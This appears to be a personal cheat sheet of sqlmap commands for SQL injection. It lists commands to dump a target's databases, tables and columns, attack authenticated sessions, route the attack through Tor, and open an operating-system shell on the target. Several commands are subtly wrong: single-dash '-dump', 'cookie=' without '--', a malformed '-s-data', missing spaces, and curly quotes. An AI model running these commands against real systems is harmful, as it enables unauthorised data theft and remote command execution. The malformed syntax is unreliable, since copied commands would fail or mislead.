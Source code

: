 # Sqlmap
#SQLi  #Tool #exploitation 

Automation of the SQLi process. 


## Usage
|Command|Description|
|---|---|
|sqlmap -r reg  --dbms=mysql --dump|SQLi on post request and dump databases|



### Simple usage
 sqlmap -u “http://targetserver/”

### Specify target DBMS to MySQL
 sqlmap -u “http://targetserver/” --dbms=mysql

### Using a proxy
 sqlmap -u “http://targetserver/” --proxy=http://proxy\_address:port

### Specify param1 to exploit
 sqlmap -u “http://targetserver/param1=value1&param2=value2” -p param1

### Use POST requests
 sqlmap -u “http://targetserver” --data=param1=value1&param2=value2

### Access with authenticated session
 sqlmap -u “http://targetserver” --data=param1=value1&param2=value2 -p param1 cookie=’my\_cookie\_value’

### Basic authentication
 sqlmap -u “http://targetserver” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password

### Evaluating response strings
 sqlmap -u “http://targetserver/” --string=”This string if query is TRUE”
 
 sqlmap -u “http://targetserver/” --not-string=”This string if query is FALSE”

### List databases
 sqlmap -u “http://targetserver/” --dbs

### List tables of database target\_DB
 sqlmap -u “http://targetserver/” -D target\_DB --tables

### Dump table target\_Table of database target\_DB
 sqlmap -u “http://targetserver/” -D target\_DB -T target\_Table -dump

### List columns of table target\_Table of database target\_DB
 sqlmap -u “http://targetserver/” -D target\_DB -T target\_Table --columns

### Scan through TOR
 sqlmap -u “http://targetserver/” --tor --tor-type=SOCKS5

### Get OS Shell
 sqlmap -u “http://targetserver/” --os-shell